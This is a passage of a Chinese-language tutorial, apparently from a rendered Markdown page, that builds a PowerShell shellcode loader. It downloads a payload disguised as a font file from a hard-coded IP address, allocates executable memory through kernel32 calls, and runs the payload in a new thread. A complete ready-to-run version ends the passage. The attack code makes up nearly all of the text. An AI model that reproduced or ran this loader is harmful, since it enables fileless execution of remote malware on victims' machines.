```powershell
}
"@

Add-Type $shell
```

#### 03 下载模块

使用 DownloadData 方法进行下载并以 Byte 类型保存至内存中

```powershell
$url = "http://172.16.181.182/fontawesome.woff"
$client = New-Object System.Net.WebClient # 下载shellcode到内存中 
$shellcode = $client.DownloadData($url) # 将shellcode转换为Byte[]类型 
[Byte[]] $payload = $shellcode
```

#### 04 调用并执行

逻辑类似，分配内存空间-拷贝shellcode代码-创建线程执行代码

```powershell
$payload_len = $payload.Length
[IntPtr]$exec_mem = [shell]::VirtualAlloc(0,$payload_len,0x3000,0x40);
[System.Runtime.InteropServices.Marshal]::Copy($payload, 0, $exec_mem, $payload_len)
$tHandle = [shell]::CreateThread(0,0,$exec_mem,0,0,0)
[shell]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

#### 05 完整代码

```powershell
$shell = @" 
using System;
using System.Runtime.InteropServices;
public class shell{
    [DllImport("kernel32.dll")] 
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32.dll", CharSet = CharSet.Ansi)]  
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    [DllImport("kernel32.dll", SetLastError=true)]  
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
}
"@

Add-Type $shell

$url = "http://172.16.181.182/fontawesome.woff"
$client = New-Object System.Net.WebClient # 下载shellcode到内存中 
$shellcode = $client.DownloadData($url) # 将shellcode转换为Byte[]类型 
[Byte[]] $payload = $shellcode

$payload_len = $payload.Length
[IntPtr]$exec_mem = [shell]::VirtualAlloc(0,$payload_len,0x3000,0x40);
[System.Runtime.InteropServices.Marshal]::Copy($payload, 0, $exec_mem, $payload_len)
$tHandle = [shell]::CreateThread(0,0,$exec_mem,0,0,0)
[shell]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```
